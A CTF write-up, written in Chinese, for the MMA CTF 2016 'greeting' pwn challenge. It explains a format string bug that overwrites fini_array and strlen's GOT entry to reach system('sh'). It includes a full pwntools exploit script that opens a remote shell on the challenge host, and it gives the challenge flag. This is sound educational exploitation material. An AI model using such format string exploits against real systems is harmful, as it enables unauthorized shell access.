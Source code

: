title: '[MMA CTF 2nd 2016] greeting 150'
author: bananaapple
tags:
  - MMA CTF 2nd 2016
  - pwn
  - format string
categories:
  - write-ups
date: 2016-09-05 02:44:00
---
# 題目說明

![](https://i.imgur.com/6ZEFGgI.png)

題目一開始會用 getline(v6, 64) 讀取 input

接著 printf 沒有給參數會觸發 format string exploit

# exploit

這題有 system function 可以用，所以 exploit 會好寫許多

把 _do_global_dtors_aux_fini_array_entry 改成 main 的 address

在 main 結束後又可以回到 main 再輸入一次

然後再把 strlen 的 GOT 改成 system 的 PLT

當 strlen function 被呼叫的時候 strlen('sh') => system('sh')

就可以得到 shell 了

# payload

```python2
#!/usr/bin/env python2
from pwn import * 
ip = "pwn2.chal.ctf.westerns.tokyo"
port= 16317
s = remote(ip,port)
print(s.readline())

strlen_got = 0x8049a54
fini_got = 0x08049934

p = "qq"
p += p32(fini_got+2)
p += p32(strlen_got+2)
p += p32(strlen_got)
p += p32(fini_got)
p += "%"+str(2016)+"c"
p += "%"+str(12)+"$hn"
p += "%"+str(13)+"$hn"
p += "%"+str(31884)+"c"
p += "%"+str(14)+"$hn"
p += "%"+str(349)+"c"
p += "%"+str(15)+"$hn"

print(len(p))
p = p.ljust(62,"a")
s.sendline(p)

buf = s.readline()
print(buf)

s.sendline('sh')
s.interactive()

```

# flag

```
TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}
```